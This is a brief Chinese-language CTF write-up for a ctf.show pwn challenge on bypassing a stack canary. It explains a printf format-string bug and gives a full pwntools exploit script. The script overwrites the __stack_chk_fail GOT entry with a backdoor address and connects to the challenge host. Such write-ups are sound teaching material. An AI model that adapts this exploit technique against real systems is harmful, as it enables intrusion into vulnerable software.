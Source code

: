 # 挑战简介
Bypass Canary 姿势4

# 思路
看到printf直接确定格式化字符串，而且此题有后门函数  

payload的关键构成如下  
```
fmtstr_payload(7, {stack_chk: flag}, write_size='byte')
```

栈位置位于第七位，并且劫持stack_chk函数，使其指向后门函数并跳转  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show', 28151)

elf = ELF('D:\edge 下载\pwn')

stack_chk = elf.got['__stack_chk_fail']

flag = 0x8048586

payload = b''

# for i in range(100):
#     payload += f'.%{i}$p'.encode()

payload = fmtstr_payload(7, {stack_chk: flag}, write_size='byte')
payload = payload.ljust(0x50, b'a')


io.sendline(payload)


io.interactive()
```
